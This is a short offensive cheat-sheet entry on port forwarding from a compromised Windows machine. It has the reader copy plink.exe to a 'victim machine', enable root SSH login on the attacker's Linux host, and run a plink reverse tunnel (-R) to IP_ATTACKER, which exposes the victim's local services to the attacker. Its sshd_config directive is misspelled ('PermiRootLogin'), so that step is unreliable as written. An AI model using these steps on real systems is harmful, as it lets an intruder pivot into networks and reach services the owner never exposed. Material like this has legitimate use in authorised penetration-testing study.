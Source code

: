 # Port Forwarding

* Download plink.exe -> https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* Transfer plink to the victim machine
* apt install ssh -> On linuc
* Edit /etc/ssh/sshd_config, change #PermiRootLogin prohibit-password to PermiRootLogin yes
* ssh service restart
* ssh service start
[+] On the windows victim machine
* plink.exe -l root -pw YOUR_SSH_PASSWORD -R PORT:127.0.0.1:PORT IP_ATTACKER
* y

[!] TRY TO USE THE ENTER KEY A COUPLE OF TIMES IN CASE YOU DON'T SEE NOTHING
